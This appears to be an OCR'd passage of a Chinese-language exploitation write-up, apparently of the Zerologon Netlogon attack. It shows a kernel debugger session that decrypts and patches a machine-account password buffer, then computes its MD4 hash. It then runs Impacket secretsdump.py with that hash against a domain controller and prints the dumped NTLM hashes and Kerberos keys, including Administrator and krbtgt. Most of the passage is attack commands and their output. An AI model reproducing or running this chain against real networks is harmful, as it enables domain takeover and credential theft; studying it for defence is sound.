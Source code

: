 ```
00000083`da84e4f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e500  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e510  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e520  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e530  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e540  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e550  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e560  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e570  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e580  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e590  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e5f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e600  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e610  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000083`da84e620  74 00 65 00 73 00 74 00-74 00 65 00 73 00 74 00  t.e.s.t.t.e.s.t.    //理论上是 Unicode 密码加密后的结果
00000083`da84e630  10 00 00 00                                      ....                // 加密前 Unicode 密码长度
1: kd> p
netlogon!NetpServerPasswordSet+0x2be:
00007ffb`0e00115e 448b8d90010000  mov     r9d,dword ptr [rbp+190h]
1: kd> db 00000083`da84e620     //解密后的数据，长度变成了 0xc6e8ca2
00000083`da84e620  74 7d 5d be 3e 03 af cc-2e cb b8 52 1c 4b af f5  t}].>......R.K..
00000083`da84e630  a2 8c 6e c0 83 00 00 00-00 4e f7 0d fb 7f 00 00  ..n......N......
00000083`da84e640  00 ec 84 da 83 00 00 00-18 8d 30 db 83 00 00 00  ..........0.....
00000083`da84e650  87 a7 43 c4 73 a1 23 4f-77 12 88 bf c4 d4 04 90  ..C.s.#Ow.......
00000083`da84e660  ff ff 2f 21 00 00 00 00-0c 40 f7 23 04 19 bb 84  ../!.....@.#....
00000083`da84e670  68 75 b4 7f 66 9f 7d 87-e6 89 31 81 7d b4 00 00  hu..f.}...1.}...
00000083`da84e680  d0 eb 84 da 83 00 00 00-52 fd f7 0d fb 7f 00 00  ........R.......
00000083`da84e690  d0 eb 84 da 83 00 00 00-68 fd f7 0d fb 7f 00 00  ........h.......
1: kd> ed 83`da84e630 10    //由于后面有 cmp r9d, 200h 判断，手动将其改为 0x10

```

解密后的密码为 "74 7d 5d be 3e 03 af cc 2e cb b8 52 1c 4b af f5"，使用 MD4 散列算法进行运算得到 2d7091de951698701d2c34e3ccec0596，使用此哈希可从域控制器中复制用户凭据：

```
➜ Desktop python3 secretsdump.py -hashes :2d7091de951698701d2c34e3ccec0596 'WIN-NI3V5MRI9L6$@192.168.147.222'
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d6ff87a3a1f9e671efea338c4fc53e65:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f15c5d3dc5d24c3587e19ed2bade3e29:::
yyyyyyyyt:1001:aad3b435b51404eeaad3b435b51404ee:d6ff87a3a1f9e671efea338c4fc53e65:::
WIN-NI3V5MRI9L6$:1002:aad3b435b51404eeaad3b435b51404ee:2d7091de951698701d2c34e3ccec0596:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:1358483816cf1723cb1c084bf1833dcd7d72cfb07cd383408ba238306ea6b580
krbtgt:aes128-cts-hmac-sha1-96:de0d4bda473745a0a696b13c69f4584f
krbtgt:des-cbc-md5:b60bfbb06ba42562
yyyyyyyyt:aes256-cts-hmac-sha1-96:dd34bd0d9a4adb2a7f0cb35f0033035b0cdae21197a41147a7b07ed0681a5a7c
yyyyyyyyt:aes128-cts-hmac-sha1-96:f46c8f546161b1082cd11d6db1c48aa4
yyyyyyyyt:des-cbc-md5:fdfbb9f170a279f4
WIN-NI3V5MRI9L6$:aes256-cts-hmac-sha1-96:f38f0684cb0a99c72741206e8a0727d0f2486dbe8b1899c9169e7eb4e7552c24
```